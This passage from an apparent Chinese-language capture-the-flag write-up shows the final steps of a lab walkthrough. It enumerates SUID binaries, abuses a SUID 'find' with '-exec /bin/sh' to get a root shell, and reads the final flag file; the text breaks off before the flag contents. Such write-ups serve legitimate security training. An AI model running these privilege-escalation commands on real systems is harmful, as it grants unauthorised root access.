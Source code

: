 <img src="https://img-blog.csdnimg.cn/345c3eede0fb403596a536e2849687d9.png" alt="在这里插入图片描述">

>  
 使用命令查看 suid 权限的可执行二进制程序 


```
find / -perm -4000 2&gt;/dev/null

```

>  
 发现find命令 


<img src="https://img-blog.csdnimg.cn/d21f7309a7a54250aaaca6fb91991c75.png" alt="在这里插入图片描述">

>  
 使用命令测试，发现为root权限 


```
touch 666
ls
find / -name 666 -exec "whoami" \;

```

<img src="https://img-blog.csdnimg.cn/c39b066cd20c427b85fb1e2b181b363a.png" alt="在这里插入图片描述">

#### 14.发现最后的flag文件

>  
 我们切换语句进入shell，执行whoami查看当前权限，执行ls查看当前目录下文件，切换到root目录，查看文件，发现cat thefinalflag.txt文件。 


```
find / -name 666 -exec "/bin/sh" \;   
whoami
ls
cd /root
ls

```

<img src="https://img-blog.csdnimg.cn/6c52ef4141af46bb9a01da7dbb997612.png" alt="在这里插入图片描述">

>  
 查看cat thefinalflag.txt文件 


```
cat thefinalflag.txt

```

>  
 文件内容如下 
